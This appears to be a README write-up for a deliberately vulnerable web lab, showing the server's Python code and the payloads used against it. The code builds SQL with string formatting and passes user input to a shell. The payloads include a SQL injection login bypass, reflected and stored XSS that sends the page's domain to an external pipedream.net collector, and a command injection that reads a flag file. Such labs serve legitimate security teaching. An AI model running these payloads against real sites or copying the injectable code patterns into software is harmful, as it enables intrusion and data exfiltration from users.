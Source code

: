 # SQLi

Код на сервере:

```python
lf = LoginForm()
if lf.validate_on_submit():
    result = check_user_sqli(lf.username.data, lf.password.data)
    if result:
        return render_template("sqli.html", result = result)
    else:
        flash('Incorrect data!')
```

```python
@create_db_connect("sqli.db")
def check_user_sqli(user, pswd, cursor):
    cursor.execute("SELECT username, password FROM Users WHERE username = \"{}\" AND password = \"{}\"".format(user, pswd))
    return cursor.fetchall()
```
Payload:
```sh
admin : 1" OR 1=1;
```

# XSS REFLECTED

![Task](img/xss_clear.png)

Payload:
```sh
1337<script>var img = new Image();img.src = "https://enm3vddkwx8b.x.pipedream.net?some_data=" + document.domain;document.getElementById('body').appendChild(img);</script>
```
![Task](img/xss_work.png)

![Task](img/xss_work2.png)

![Task](img/xss_work3.png)

# XSS STORED

![Task](img/xss_stored_1.png)

Payload in note:
```sh
1337<script>var img = new Image();img.src = "https://enm3vddkwx8b.x.pipedream.net?some_data=" + document.domain;document.getElementById('body').appendChild(img);</script>
```

![Task](img/xss_stored_3.png)

![Task](img/xss_work2.png)

![Task](img/xss_stored_4.png)

# RCE

![Task](img/rce_work.png)

```python
mf = MessageForm()
if mf.validate_on_submit():
    result = write_message_rce(mf.message.data)
    if len(result) == 0:
        flash('Message saved!')
    else:
        flash(result)
```
```python
def write_message_rce(note):
    command = 'echo "' + str(note) + '" > ' + os.path.join(os.path.abspath("."),'data_rce/')+ str(randint(0,100)) + '.txt'
    result = ''
    for line in run_command(command):
        result += line.decode()
    return result
```
```python
def run_command(command):
    p = subprocess.Popen(command,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.STDOUT,
                         shell=True)
    return iter(p.stdout.readline, b'')
```

Payload in note:
```sh
1" && cat data_rce/flag.txt #
```

![Task](img/rce_work2.png)
